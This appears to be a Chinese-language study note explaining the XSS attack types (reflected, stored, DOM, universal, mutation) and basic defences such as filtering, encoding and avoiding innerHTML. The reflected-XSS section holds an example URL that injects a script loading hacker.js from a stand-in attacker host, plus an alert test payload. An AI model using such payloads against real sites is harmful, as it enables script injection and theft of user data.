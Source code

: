 ```yaml
---
date: 2024-04-03 18:02
modified: 2024-04-03 22:46
---
```


# XSS 攻击

XSS（Cross Site Scripting，跨站脚本攻击），是指攻击者利用网页站点的漏洞，通过巧妙的方法注入恶意指令代码到网页（如：表单提交，URL 注入），当其他正常用户浏览页面，而页面中刚好出现攻击者的恶意脚本时，脚本被执行，从而使得页面遭到破坏，或者用户信息被窃取。

最常见的几种分类：反射型（非持久型）XSS、存储型（持久型）XSS、DOM 型 XSS、通用型 XSS、突变型 XSS。

## 反射型（非持久型）XSS

反射型 XSS 漏洞常见于通过 URL 传递参数的功能，如网站搜索，跳转等。由于需要用户主动打开或点击恶意的 URL 才能生效，攻击者往往会结合多种手段诱导用户点击。比如下面的 URL：

```text
http://x.x.x.x:8080/dosomething?message="<script src="http://www.hacktest.com:8002/xss/hacker.js"></script>"

http://localhost/test.php?param=<script>alert(/xss/)</script>
```

POST 的内容也可以触发反射型 XSS，只不过它的触发条件比较苛刻（构建表单提交页面，并引导用户点击），所以非常少见。

反射型 XSS 的攻击步骤：

1. 攻击者构造出特殊的 URL，其中包含恶意代码
2. 用户打开有恶意代码的 URL 时，网站服务器将恶意代码从 URL 取出，拼接在 HTML 返回给浏览器
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也会被执行
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户行为，调用目标网站接口执行攻击者指定的操作

反射型 XSS 受到 XSS Auditor（Chrome 内置的 XSS 保护，能够检测到 URL 上的 XSS 攻击，将网页拦截掉）、NoScript 等防御手段的影响较大，所以它的危害性较存储型要小。

## 存储型（持久型）XSS

恶意脚本永久存储在目标服务器上。当浏览器请求数据时，脚本从服务器传回并执行，影响范围比反射型和 DOM 型 XSS 更大。存储型 XSS 攻击的原因仍然是没有做好数据过滤：前端提交数据至服务器端时，没有做好过滤；服务端在按受到数据时，在存储之前，没有做过滤；前端从服务器端请求到数据，没有过滤输出。

这种攻击常见于带有用户保存数据的网站功能，如论坛发帖，商品评论，用户私信等。如骇客写下一篇包含有恶意 JavaScript 代码的博客文章，文章发表后，所有访问该博客的用户，都会在他们的浏览器中执行这段恶意 JS 代码。

存储型 XSS 的攻击步骤：

1. 攻击者将恶意代码提交到目标网站的数据库中
2. 用户打开目标网站时，网站服务端将恶意代码从数据库中取出，拼接在 HTML 中返回给浏览器
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行
4. 恶意代码窃取用户数据并发送到攻击者的网站，或冒充用户行为，凋用目标网站接口执行攻击者指定的操作

不论是反射型攻击还是存储型，攻击者总需要找到两个要点，即“输入点”与“输出点”，也只有这两者都满足，XSS 攻击才会生效：

- “输入点”用于向 Web 页面注入所需的攻击代码
- “输出点”就是攻击代码被执行的地方

## DOM 型 XSS

DOM 型 XSS 攻击，实际上就是前端 JS 代码不够严谨，把不可信的内容插入到了页面。DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JS 自身的安全漏洞。

DOM 型 XSS 是基于 DOM 文档对象模型的。对于浏览器来说，DOM 文档就是一份 XML 文档，当有了这个标准的技术之后，通过 JavaScript 就可以轻松的访问 DOM。当确认客户端代码中有 DOM 型 XSS 漏洞时，诱使（钓鱼）一名用户访问自己构造的 URL，利用步骤和反射型很类似，但是唯一的区别就是，构造的 URL 参数不用发送到服务器端，可以达到绕过 WAF、躲避服务端的检测效果。

DOM 型 XSS 攻击步骤：

1. 攻击者构造出特殊数据，其中包含恶意代码
2. 用户浏览器执行了恶意代码
3. 恶意窃取用户数据并发送到攻击者的网站，或冒充用户行为，调用目标网站接口执行攻击者指定的操作

## 通用型 XSS

通用型 XSS，也叫做 UXSS 或者 Universal XSS，全称 Universal Cross-Site Scripting。

上面三种 XSS 攻击的是因为客户端或服务端的代码开发不严谨等问题而存在漏洞的目标网站或者应用程序。这些攻击的先决条件是访问页面存在漏洞，但是 UXSS 是一种利用浏览器或者浏览器扩展漏洞来制造产生 XSS 的条件并执行代码的一种攻击类型。

不仅是浏览器本身的漏洞，现在主流浏览器都支持扩展程序的安装，而众多的浏览器扩展程序可能导致带来更多的漏洞和安全问题。因为 UXSS 攻击不需要网站页面本身存在漏洞，同时可能访问其他安全无漏洞页面，使得 UXSS 成为 XSS 里危险和最具破坏性的攻击类型之一。

漏洞案例：

- [IE6 或火狐浏览器扩展程序 Adobe Acrobat 的漏洞](https://blog.jeremiahgrossman.com/2007/01/what-you-need-to-know-about-uxss-in.html)
- [Flash Player UXSS 漏洞 – CVE-2011-2107](https://helpx.adobe.com/security/security-bulletin.html)
- [安卓版 Chrome 浏览器漏洞](https://issues.chromium.org/issues/40064753)

## 突变型 XSS

突变型 XSS，也叫做 mXSS 或，全称 Mutation-based Cross-Site-Scripting。（mutation，突变，来自遗传学的一个单词）

如果用户所提供的富文本内容通过 JS 代码进入 `innerHTML` 属性后，一些意外的变化会使得这个认定不再成立：浏览器的渲染引擎会将本来没有任何危害的 HTML 代码渲染成具有潜在危险的 XSS 攻击代码。

由于 HTML 内容进入 `innerHTML` 后发生意外变化，将会导致潜在的 mXSS 攻击。

常见 mXSS 种类：

- 反引号打破属性边界导致的 mXSS：该类型是最早被发现并利用的一类 mXSS，于 2007 年被提出，随后被有效的修复
- 未知元素中的 `xmlns` 属性所导致的 mXSS：一些浏览器不支持 HTML5 的标记，例如 IE8，会将 `article`、`aside`、`menu` 等当作是未知的 HTML 标签
- CSS 中反斜线转义导致的 mXSS：在 CSS 中，允许用 `\` 来对字符进行转义，例如：`property: 'v\61 lue'` 表示 `property: 'value'`，其中 `61` 是字母 `a` 的 ascii 码（十六进制）。`\` 后也可以接 unicode，例如：`\20AC` 表示 `€`。正常情况下，这种转义不会有问题。但是碰上 `innerHTML` 后，一些奇妙的事情就会发生
- CSS 中双引号实体或转义导致的 mXSS：`&quot;`、`&#x22;`、`&#34;` 等双引号的表示形式均可导致这类问题
- CSS 属性名中的转义所导致的 mXSS
- 非 HTML 文档中的实体突变
- HTML 文档中的非 HTML 上下文的实体突变

# 防御方式

XSS 攻击有两大要素：

1. 攻击者提交恶意代码
2. 浏览器执行恶意代码

##  对用户提交的内容进行过滤或编码

服务端和客户端对用户提交的内容进行过滤或编码

- 过滤：去掉一些危险的标签，去掉一些危险的属性
- 编码：对危险的标签进行 HTML 实体编码

一般需要前端（作为 HTML 插到页面前、作为代码执行前、提交给后端前）和后端（存入数据库前）都做过滤或编码：

- 前端：预防 DOM 型 XSS 攻击；预防将恶意代码提交给服务器；预防后端返回包含恶意代码的数据
- 后端：预防攻击者绕过前端过滤，直接构造请求，提交恶意代码

## 预防 DOM 型 XSS 攻击

DOM 型 XSS 攻击，实际上就是网站前端 JavaScript 代码本身不够严谨，把不可信的数据当作代码执行了。

在使用 `innerHTML`、`outerHTML`、`document.write()`、Vue 的 `v-html`、React 的 `dangerouslySetInnerHTML` 时要特别小心，不要把不可信的数据作为 HTML 插到页面上，而应尽量使用 `textContent`、`setAttribute()` 等。

DOM 中的内联事件监听器，如 `location`、`onclick`、`onerror`、`onload` 等， 标签的 `href` 属性，JavaScript 的 `eval()`、`setTimeout()`、`setInterval()` 等，都能把字符串作为代码运行。如果不可信的数据拼接到字符串中传递给这些 API，很容易产生安全隐患，请务必避免。

